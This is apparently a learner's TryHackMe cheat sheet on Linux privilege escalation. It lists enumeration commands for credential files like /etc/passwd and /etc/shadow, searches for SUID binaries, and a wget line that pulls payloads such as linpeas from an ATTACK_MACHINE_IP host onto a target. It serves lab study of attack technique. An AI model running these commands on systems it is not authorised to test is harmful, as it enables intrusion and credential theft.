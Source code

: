 horizontal - changing unprivileged access
vertical - gaining privileged access

##### accessing THM via openVPN
change to folder with conf. file -> `sudo openvpn USERNAME.ovpn`


## Linux
`id; whoaimi; groups`
to check who I am

`hostname`
can contain usefull info about user

`uname -a`
info about kernel and system versions - check if vulnerable

`cat /proc/version`
kernel, system and additional info (e.g. if `gcc` is installed)


`ls -la /etc/passwd`
check your privileges (maybe you could write?)

`cat /etc/passwd | grep home | cut -d":" -f1`     
```
kali:x:1000:1000:Kali,,,:/home/kali:/usr/bin/zsh
```
users with `home` might be worthier of hacking
hash is in place of "x", or it is in `/etc/shadow`

check if you have access to `/etc/shadow` (not likely)


- look for `SUID` binaries
`find / -type f -perm -04000 -ls 2>/dev/null`
- look for `sudo` users
`sudo -l` list what sudo allows

[GTFObin](https://gtfobins.github.io/)

[when only root-write permission](example/root-write.md)

`getcap -r / 2>/dev/null` ??????

### copy payloads to target
prepare dir with payloads on local machine
create simple python server on local machine in that dir
check your VPN IP (via `ip a` should be visible)

create `/tmp/payloads` on target
`wget http://ATTACK_MACHINE_IP:PORT/linux-peas.sh`
(without specification "what" to download - will download only index.html - you have to be specific)

POC proof of concept

### Payloads:
Linpeas `shell wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`
